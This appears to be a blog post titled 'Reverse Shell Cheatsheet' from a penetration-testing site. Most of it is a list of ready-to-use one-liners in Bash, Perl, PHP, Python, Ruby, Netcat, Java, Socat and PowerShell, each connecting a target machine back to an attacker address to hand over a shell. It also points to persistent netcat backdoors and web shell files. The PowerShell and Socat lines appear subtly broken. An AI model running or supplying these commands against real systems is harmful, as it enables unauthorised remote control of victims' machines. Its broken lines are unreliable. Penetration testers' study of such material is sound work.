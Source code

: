 ```yaml
---
published: true
category: Cheatsheet
title: Reverse Shell Cheatsheet
---
```


When penetration testing, hackers often find themselves in a compromised system with a command execution vulnerability. Whenever the opportunity persists, the attacker must establish a reverse shell. 

A **reverse shell** is an (insecure) shell session which establishes a connection initiated by a remote host. This is a **type** of shell where the attacker may communicate back to the remote host.

The attacking machine essentially acts as a client whilst the remote host acts as the server, creating a communication port on the victim. Once this connection has been established, the attacker can remotely execute commands. 

The attacking machine listens on a port which the connection is established on. 

This article will outline the most common reverse shells that can be used. Depending on what is available on the target system, one of the following scripting languages must be chosen. 

Please refer to the bottom of this page for web shells in Kali Linux.

### Bash

<pre>bash -i >& /dev/tcp/10.0.0.1/8080 0>&1</pre>

### Perl

<pre>perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'</pre>

### PHP 

Please note, this assumes a TCP connection uses file descriptor 3. 

<pre> php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' </pre>

If a .php file is needed for a payload, refer to [this website](https://github.com/pentestmonkey/php-reverse-shell) for some examples. You can also find some in the web shells directory on Kali Linux.

### Python

Python 2.7

<pre> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</pre>

Refer to [this website](https://www.thepythoncode.com/article/create-reverse-shell-python) for more information about python reverse shells.

### Ruby 

<pre>ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'</pre>

### Netcat

If an attacker is lucky enough to find netcat on the compromised system, Netcat can be used to gain a reverse shell. If possible, installing the windows binary nc.exe can allow an attacker a persistent netcat backdoor. Read more about [this here](https://www.offensive-security.com/metasploit-unleashed/persistent-netcat-backdoor/).

<pre>nc -e /bin/sh 10.0.0.1 1234</pre>

If the incorrect version of netcat is installed, this command may be used to get a reverse shell. Please refer to [this website for more information](https://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498).

<pre>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f</pre>

### Java

<pre>r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()</pre>

### Socat 

Attacker:
<pre>socat file:`tty`,raw,echo=0 TCP-L:port</pre>
Client:
<pre>/dev/shm exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ip-address:port</pre>

### Powershell

<pre>powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("ip-address",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()</pre>

### Kali Linux Web Shell Files

Kali Linux has a variety of pre-installed web shells.

<pre>/usr/share/webshells</pre>

The above directory contains files which establish a reverse shell, some of which include:

**php**: /usr/share/webshells/php/

**Perl**: /usr/share/webshells/perl/

**Cold Fusion**: /usr/share/webshells/cfm/

**ASP**: /usr/share/webshells/asp/

**JSP**: /usr/share/webshells/jsp/

This is a screenshot of the directories on my local Kali Linux machine:

![webshells](https://imgur.com/1LQCTZc.png)


